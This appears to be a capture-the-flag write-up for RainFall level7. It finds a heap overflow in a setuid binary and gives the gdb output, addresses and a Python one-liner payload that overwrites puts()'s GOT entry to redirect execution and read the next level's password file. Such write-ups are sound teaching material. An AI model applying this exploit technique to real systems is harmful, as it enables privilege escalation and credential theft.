


# LEVEL7

## 1. Inspect The Executable

```bash
level7@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level8 users 5648 Mar  9  2016 level7
```

We can see that the binary has the `s` bit set on the **execution permission**, which means the program will run with level8 privileges.

```bash
level7@RainFall:~$ ./level7 
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 a
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 a a
~~
level7@RainFall:~$ ./level7 abc abc
~~
level7@RainFall:~$ ./level7 aaaaaaaaaaaaaaaaaa abc
~~
```

The program expects **two arguments** and prints `"~~"` when executed successfully.

```bash
level7@RainFall:~$ ./level7 aaaaaaaaaaaaaaaaaaa abc
~~
level7@RainFall:~$ ./level7 aaaaaaaaaaaaaaaaaaaa abc
~~
level7@RainFall:~$ ./level7 aaaaaaaaaaaaaaaaaaaaa abc
Segmentation fault (core dumped)
```

These tests indicate a **buffer overflow vulnerability** (here triggered with 21 `a` characters), meaning there is probably **no protection** on the input buffer.

## 2. Analyze The Executable

```bash
(gdb) info functions 
All defined functions:

Non-debugging symbols:
[...]
0x080484f4  m
0x08048521  main
[...]
```

Using the gdb command `info functions`, we can list all functions present in the binary.
Here, we find 2 interesting functions: `main` and `m`.

### Program Behavior

#### main function

The `main` function performs **several memory allocations** using `malloc()`, each with a size of `8 bytes`.

First, it **allocates memory** for `puVar1`:
- `puVar1[0]` is set to 1.
- `puVar1[1]` stores a pointer to another `malloc(8)` allocation (with `pvVar2` used as a temporary variable to store the allocated address).

Then, it **allocates memory** for `puVar3`:
- `puVar3[0]` is set to 2.
- `puVar3[1]` stores a pointer to another `malloc(8)` allocation (with `pvVar2` used as a temporary variable to store the allocated address).

The program then **copies program input** into these **buffers**:
- `argv[1]` is copied into `puVar1[1]` using `strcpy()`.
- `argv[2]` is copied into `puVar3[1]` using `strcpy()`.

After that, the program opens the file `/home/user/level8/.pass` using `fopen()`, reads its content into the global variable `c` using `fgets()`, prints `"~~"` with `puts()`, and then returns.

#### m function

The `m` function retrieves the current time using `time()` and prints it alongside the global variable `c`.

---

#### main function Deductions

The sequence of memory allocations in main suggests the use of an implicit structure layout:

```c
struct s
{
	int	id;		// -> puVar[0] | 4 bytes | contains '1' or '2'
	char *buf;	// -> puVar[1] | 4 bytes | points to an 8-byte heap buffer
};
```

## 3. Exploit Development

In this level, we can use the **Heap based Buffer Overflow Attack** again.

### Heap Layout

the **heap layout** looks like this :



Note:
The **8 bytes** of **heap chunk metadata** include both the **metadata** itself and **any padding** required to satisfy **8-byte alignment** on **x86 64-bit systems**. The exact size and contents of the metadata can vary depending on the allocator and architecture.

---

### Understand The Attack

#### First `strcpy()`

By **overflowing** the **`puVar1[1]` buffer** (i.e. `puVar1->buf`), we can overwrite **adjacent heap data**, in order:
- The **heap chunk metadata / 8-byte alignment**.
- The **memory allocated** for **`puVar3[0]`** (i.e. `puVar3->id`).
- And the memory allocated for **`puVar3[1]`** (i.e. `puVar3->buf`).

#### Second `strcpy()`

The **second `strcpy()`** then **writes into `puVar3->buf`**.
If we **overwrite `puVar3->buf`** with the **GOT entry address of `puts()`**, this second `strcpy()` will **overwrite** the **GOT entry itself** with **`argv[2]`**.

As a result, any **subsequent call** to **`puts()`** will **jump** to an **user-controlled address**.

By **writing** the address of the **function `m()`** into the **GOT entry of `puts()`**, the call to `puts("~~")` in main will **redirect execution** to **`m()`**, which prints the contents of the `.pass` file.

### Get Exploit Values

First, we need to **calculate the overflow offset** required to reach the **memory area** of `puVar3[1]` (i.e `puVar3->buf`) starting from `puVar1[1]` (i.e `puVar1->buf`).

The layout in memory is:

```
([Chunk 1 metadata: 8 bytes]) [puVar1->id: 4 bytes] [puVar1->buf: 8 bytes] [Chunk 2 metadata: 8 bytes] [puVar3->id: 4 bytes] [puVar3->buf: 8 bytes]
                                                    ↑
                                                    start here
```

Which corresponds to:
```
8 bytes (puVar1->buf) + 8 bytes (chunk 2 metadata) + 4 bytes (puVar3->id) = 20 bytes
```

Therefore, the required offset is **20 bytes**.

---

Next, we need:
- The **GOT entry of `puts()`**.
- The **address of `m()`**.

Using `gdb`, we obtain:

```bash
(gdb) p puts
$1 = {<text variable, no debug info>} 0x8048400 <puts@plt>
(gdb) x/4i 0x8048400
   0x8048400 <puts@plt>:	jmp    *0x8049928
   0x8048406 <puts@plt+6>:	push   $0x28
   0x804840b <puts@plt+11>:	jmp    0x80483a0
   0x8048410 <__gmon_start__@plt>:	jmp    *0x804992c
(gdb) p m
$2 = {<text variable, no debug info>} 0x80484f4 <m>
```

The **GOT entry address** is : `0x8049928`. In little-endian format:
```
\x28\x99\x04\x08
```

And the **m() address** is therefore : `0x080484f4`. In little-endian format:
```
\xf4\x84\x04\x08
```

### Overflow Visualization



### Create the Payload

```bash
python -c "print 'a' * 20 + '\x28\x99\x04\x08'" python -c "print '\xf4\x84\x04\x08'" 
```

**Explanation:**
- `python`			: launches the Python interpreter.
- `-c` 				: executes the command passed as a string.
- `print` 			: outputs data to standard output.


## 4. Capture The Flag

```bash
level7@RainFall:~$ ./level7 $(python -c "print 'a' * 20 + '\x28\x99\x04\x08'") $(python -c "print '\xf4\x84\x04\x08'")
XXX
 - 1765381486
```